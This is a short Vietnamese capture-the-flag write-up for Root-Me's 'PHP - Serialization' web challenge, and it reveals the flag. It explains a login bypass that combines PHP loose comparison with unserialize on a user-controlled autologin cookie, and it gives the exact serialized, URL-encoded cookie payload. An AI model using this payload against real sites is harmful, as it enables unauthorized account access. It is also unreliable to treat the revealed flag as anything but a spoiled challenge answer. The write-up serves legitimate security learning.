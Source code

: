 # [PHP - Serialization](https://www.root-me.org/en/Challenges/Web-Server/PHP-Serialization)

## Solutions

Lỗ hổng:

- Nhặt được tên tài khoản admin ở source code: `superadmin`
- true == "string" luôn luôn bằng true:
  - `$data['password'] == $auth[ $data['login'] ]`
- phía người dùng có thể tùy ý thay đổi cookie autologin để pass thẳng vào hàm unserialize => có thể tạo biến kiểu boolean

Khai thác:

- Serialize array("password"=>true, "login"=>"superadmin") được: `a:2:{s:8:"password";b:1;s:5:"login";s:10:"superadmin";}`
- urlencode và gửi trong cookie header: `autologin=a%3a2%3a%7bs%3a8%3a%22password%22%3bb%3a1%3bs%3a5%3a%22login%22%3bs%3a10%3a%22superadmin%22%3b%7d`

Kết quả:

```html
<p>Great ! Welcome superadmin !</p>
<p>You can validate the challenge with the password : NoUserInputInPHPSerialization!
</p>
```

Flag: `NoUserInputInPHPSerialization`
